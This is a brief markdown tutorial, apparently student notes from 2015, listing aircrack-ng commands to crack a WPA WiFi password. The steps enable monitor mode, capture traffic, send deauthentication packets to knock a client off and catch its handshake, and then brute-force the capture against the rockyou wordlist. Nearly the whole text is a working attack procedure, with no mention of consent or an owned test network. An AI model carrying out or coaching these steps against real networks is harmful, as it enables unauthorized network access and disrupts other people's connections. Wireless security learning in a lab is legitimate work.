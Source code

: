 #10/12/2015

###**WPA**

###Steps/Commands

**Window 1**
* service network-manager stop
* airmon-ng start "INTERFACE"
* airodump-ng mon0
* airodump-ng --bssid "BSSID" -c "Channel" --showack -w wpa_log "INTERFACE"

**New window**
* aireplay-ng -0 20 -a "BSSID" -c "HOSTNMAC" "INTERFACE" 
  * Will deauthenticate the host computer from the WiFi network (-0). We send 20 deauth packets (-20) Computer will probably reconnect automattically (Windows default setting), now we can catch the handshake! Once we have this handshake captured we can start cracking. You can check in Window 1 if you have captured the handshake.
* Ctrl + c
* Clear
* aircrack-ng wpa_log-01.cap -w "path to wordlist"
  * wpa_log-01.cap => Filename where airodump logs every packet (You can change the filename with -w)
  * "path to wordlist !? WPA doesn't have the weakness in IV's like WEP has. We have to bruteforce the password. The wordlist is a text file containing possibilities (aka common passwords). An example is [rockyou](http://scrapmaker.com/download/data/wordlists/dictionaries/rockyou.txt)

*** Some comments
We didn't do it on the RPi2 because
* The slow hardware for bruteforcing
* It took ages to download the rockyou file @ school
* Bruteforcing is quite useless with the "random" generated passwords as default. (takes to long)

The bruteforcing can be speed up by using the GPU power. 
